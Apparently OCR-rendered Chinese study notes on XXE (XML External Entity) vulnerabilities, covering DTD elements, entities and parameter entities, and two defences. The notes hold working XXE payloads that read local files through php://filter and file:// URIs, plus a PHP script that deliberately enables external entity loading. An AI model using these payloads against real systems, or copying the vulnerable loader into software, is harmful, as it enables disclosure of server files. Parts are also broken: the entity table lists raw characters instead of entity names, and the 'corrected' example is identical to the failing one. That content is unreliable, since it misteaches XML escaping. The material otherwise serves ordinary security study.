1、XXE漏洞由XML文档引起。
2、发现漏洞：
抓包查看登录请求，发现登录的用户名和密码以XML格式进行传递，而服务器可以接受XML格式的信息，就表明可能存在XXE漏洞。

`<?xml version = "1.0"?>` 
`<!DOCTYPE ANY [`
`<!ENTITY  file SYSTEM "php://filter/read=convert.base64-encode/resource=xxe.php">`
`]>`
`<root><name>`  
`&file;`  
`</name><password>123213</password></root>`




`<?xml version = "1.0"?>  <!DOCTYPE ANY [ 		 <!ENTITY xxe SYSTEM "http://localhost/123.txt">  ]>` 
`<foo>&xxe;</foo>`


`<?xml version = "1.0"?>`  
`<!DOCTYPE ANY [`  
`<!ENTITY xxe SYSTEM "file:///C://Users//Administrator//Desktop//1.txt">`  
`]>`
 `<foo>&xxe;</foo>`

创建验证代码：

`<?php`  
`libxml_disable_entity_loader(false);`  
`$xmlfile = file_get_contents('php://input');  //获取文件内容`
`//添加异常处理`
`$dom = new DOMDocument();`  
`$dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);`  
`$creds = simplexml_import_dom($dom);`  
`header('Content-Type: text/html; charset=utf-8');`  
`echo $creds;`  
`?>`
http://localhost/check.php
Post data:
`<?xml version='1.0' ?>`
`<users>`
  `<user id='1'>`
    `<name>zhangsan</name>`
    `<age>23</age>`
    `<gender>male</gender>`
  `</user>`
  `<user id='2'>`
    `<name>lisi</name>`
    `<age>24</age>`
    `<gender>female</gender>`
  `</user>`
`</users>`


check.php
`<?php`  
`$xmlString = $_POST['xml'];`  
`libxml_use_internal_errors(true);`  
`$dom = new DOMDocument();`  
`$xmlFile = 'example.xml';`  
`file_put_contents($xmlFile, $xmlString);`  
  
`if ($dom->load('example.xml')) { // 加载XML文件`  
    `if (!$dom->validate()) { // 验证DTD`  
        `$errors = libxml_get_errors(); // 获取错误信息`  
        `foreach($errors as $error) {`  
            `echo "Error code: {$error->code}\n";`  
            `echo "Error message: {$error->message}\n";`  
        `}`  
    `} else {`  
        `echo 'Validation successful!';`  
    `}`  
`} else {`  
    `echo 'Failed to load XML file.';`  
`}`  
`?>`


http://localhost/check.php
Post data:
`<xml=<?xml version='1.0' ?>`  
`<!DOCTYPE users [`  
  `<!ELEMENT users ( user+)>`  
  `<!ELEMENT user ( name,age,gender )>`  
  `<!ATTLIST user id CDATA #REQUIRED>`  
  `<!ELEMENT name    (#PCDATA)>`  
  `<!ELEMENT age    (#PCDATA)>`  
  `<!ELEMENT gender (#PCDATA)>`  
`]>`  
`<users>`  
  `<user id='1'>`  
    `<name>zhangsan</name>`  
    `<age>23</age>`  
    `<gender>male</gender>`  
  `</user>`  
  `<user id='2'>`  
    `<name>lisi</name>`  
    `<age>24</age>`  
    `<gender>female</gender>`  
  `</user>`  
`</users>`





### **元素的分类**

· <!ELEMENT element-name EMPTY>//空元素

· <!ELEMENT element-name (#PCDATA)>//文本元素

· <!ELEMENT element-name (e1,e2)>//混合元素

### **ATTLIST属性定义**

![](file:///C:\Users\37622\AppData\Local\Temp\ksohtml21892\wps1.jpg) 

# **实体**

实体是用于定义**引用普通文本或特殊字符**的快捷方式的变量。

## **预定义实体**

|   |   |   |
|---|---|---|
|<|<|小于|
|>|>|大于|
|&|&|和号|
|'|'|省略号|
|"|"|引号|


无法运行访问：
`<?xml version='1.0' ?>`  
`<users>`  
  `<user id='1'>`  
    `<name>zhangsan></name>`  
    `<age>23&</age>`  
    `<gender>male"</gender>`  
  `</user>`  
`</users>`


改成下面能正确运行

`<?xml version='1.0' ?>`  
`<users>`  
  `<user id='1'>`  
    `<name>zhangsan></name>`  
    `<age>23&</age>`  
    `<gender>male"</gender>`  
  `</user>`  
`</users>`


自定义实体xml：
`<?xml version='1.0' ?>`  
`<!DOCTYPE note[`  
`<!ELEMENT note (name)>`  
`<!ENTITY zhangsan "zs">`  
`]>`  
`<users>`  
  `<user id='1'>`  
    `<name>&zhangsan;</name>`  
    `<age>23</age>`  
    `<gender>male</gender>`  
  `</user>`  
`</users>`


## **参数实体**

只能在DOCTYPE里面使用的实体
01:

`<?xml  version="1.0" encoding="utf-8"?>`  
`<!DOCTYPE  ROOT [`  
     `<!ELEMENT ROOT (A|B)*>`  
     `<!ENTITY  % A_atrr SYSTEM "A.dtd">`  
     `<!ENTITY  % B_atrr SYSTEM "B.dtd">`  
     `%A_atrr;`  
     `%B_atrr;`  
`]>`  
`<ROOT>`  
     `<A>`  
         `<NAME_A>`  
             `I am A!`  
         `</NAME_A>`  
     `</A>`  
     `<B>`  
         `<NAME_B>`  
             `I am B;`  
         `</NAME_B>`  
     `</B>`  
`</ROOT>`  


02：

`<?xml  version="1.0" encoding="utf-8"?>`  
`<!ELEMENT  A (NAME_A)>`  
`<!ELEMENT  NAME_A (#PCDATA)>`  

`<?xml  version="1.0" encoding="utf-8"?>`  
`<!ELEMENT  B (NAME_B)>`  
`<!ELEMENT  NAME_B (#PCDATA)>`



防御手段：
1、打开PHP的libxml_disable_entity_loader(true),不允许加载外部实体。
2、过滤用户提交的XML数据，如ENTITY、SYSTEM。



